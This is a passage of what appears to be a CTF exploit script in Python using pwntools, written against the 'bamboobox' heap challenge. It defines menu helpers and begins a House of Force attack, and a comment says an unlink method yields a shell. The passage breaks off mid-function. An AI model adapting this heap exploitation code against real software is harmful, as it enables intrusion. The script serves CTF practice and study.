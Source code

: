    ```s
from pwn import *
from LibcSearcher import LibcSearcher
context(os='linux',arch='amd64')
context.log_level='DEBUG'

# there are two ways to get flag
# one for hof,this way colud read flag and print it
# one for unlink,this way could get shell

p = process('./bamboobox')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\0'))
uu64    = lambda data               :u64(data.ljust(8,'\0'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

def show():
    ru("Your choice:")
    s(1)
    ru(' : ')
    return r(6)

def add(len,name):
    ru("Your choice:")
    s(2)
    ru("Please enter the length of item name:")
    s(len)
    ru("Please enter the name of item:")
    s(name)

def chage(index,name):
    ru("Your choice:")
    s(3)
    ru("Please enter the index of item:")
    s(index)
    ru("Please enter the length of item name:")
    s(len(name))
    ru("Please enter the new name of the item:")
    s(name)

def remove(index):
    ru("Your choice:")
    s(4)
    ru("Please enter the index of item:")
    s(index)

def dbg():
    gdb.attach(p)
    pause()

def hof():
    add(0x30,'aaa') #id0
    # dbg()
    # pwndbg> x/16g 0x10d0020
    # 0x10d0020:    0x0000000000000000  0x0000000000000041 <- id0
    # 0x10d0030:    0x0000000000616161  0x0000000000000000
    # 0x10d0040:    0x0000000000000000  0x0000000000000000
   ```